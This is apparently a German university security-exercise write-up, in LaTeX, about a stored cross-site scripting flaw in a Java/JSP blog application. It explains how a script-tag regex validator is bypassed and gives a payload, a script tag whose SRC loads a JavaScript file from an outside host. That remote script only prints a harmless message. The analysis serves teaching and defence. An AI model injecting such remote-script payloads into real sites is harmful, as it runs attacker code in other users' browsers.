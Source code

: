 \section{App1 - Blog in Java mit JSP}

\subsection{Vulnerability: Cross-Site Scripting}

Das Blog ist anfällig für Cross-Site Scripting. Das Problem liegt darin, dass die Eingabedaten beim Erzeugen eines neuen Blog-Eintrags nur unzureichend gefiltert werden. Beim erneuten Anzeigen eines betroffenen Blog-Eintrags werden diese Daten - die z. B. beliebigen JavaScript-Code enthalten können - dann an den Browsers gesendet und dort ausgeführt.

Ein konkretes Beispiel für einen Angriff: Der Angreifer \emph{evil\_hacker} legt einen neuen Blog-Eintrag an. Im Formular auf \url{newPost.html} gibt er als Benutzernamen wahrheitsgemäß \lstinline$evil_hacker$ ein. Als Text des Blog-Eintrags wählt er \lstinline$<SCRIPT SRC=http://web.student.tuwien.ac.at/~e9902433/xss.js></SCRIPT>$.

Im Servlet, das den Post-Request entgegen nimmt (\url{gui.controller.BlogServlet}) wird die Eingabe zwar validiert, bevor sie in die (In-Memory-)Datenbank geschrieben wird. Leider ist der verwendete Validator (\url{gui.helper.ScriptTagValidator}) nicht ausreichend. Die verwendete Regular Expression \lstinline$.*< *[Ss][Cc][Rr][Ii][Pp][Tt] *>.*"$ matcht nur Script-Tags, die keine Attribute zwischen dem Wort "script" und der schließenden Spitz-Klammer enthalten. Durch die Angabe \lstinline$SRC=http://web.student.tuwien.ac.at/~e9902433/xss.js$ lässt sich der Validator also in die Irre führen und lässt die Eingabe ungefiltert durch.

Auf dem Webspace von \emph{evil\_hacker} liegt unter der URL \url{SRC=http://web.student.tuwien.ac.at/~e9902433/xss.js} eine JavaScript-Datei mit dem folgenden Inhalt:

\begin{lstlisting}
document.write('This is the evil script!')
\end{lstlisting}

Da bei der Ausgabe der Blog-Einträge die Inhalte überhaupt nicht mehr gefiltert werden, wird also der folgende Text als Blog-Eintrag wieder ausgegeben (z. B. in archive.jsp). Im Browser wird das Script-Tag dann so behandelt, als würde es aus vertrauenswürdiger Quelle kommen: Das Script von der angegebenen URL wird heruntergeladenen und ausgeführt. Im konkreten Fall wird dadurch an der Stelle, an der sich das Script-Tag befand der Text "This is the evil script" ausgegeben.

